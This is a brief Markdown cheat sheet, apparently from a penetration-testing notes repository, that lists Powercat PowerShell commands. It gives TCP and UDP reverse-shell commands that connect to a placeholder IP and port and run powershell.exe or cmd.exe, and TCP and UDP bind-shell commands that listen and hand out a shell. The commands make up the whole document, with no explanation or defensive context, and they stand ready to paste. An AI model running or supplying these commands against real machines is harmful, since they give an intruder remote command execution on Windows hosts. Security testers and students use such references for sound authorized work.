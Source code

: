 # Powercat

## 01 - Reverse shell

### 1.1 - TCP Method

```
PS C:\> powercat -c <IP> -p <PORT> -e <powershell.exe | cmd.exe>
```

### 1.2 - UDP Method

```
PS C:\> powercat -u -c <IP> -p <PORT> -e <powershell.exe | cmd.exe>
```

## 02 - Bind shell

### 2.1 - TCP Method

```
PS C:\> powercat -l -p <PORT> -e <powershell.exe | cmd.exe>
```

### 2.2 - UDP Method

```
PS C:\> powercat -u -l -p <PORT> -e <powershell.exe | cmd.exe>
```

---
## References

- [Powercat](https://github.com/besimorhino/powercat)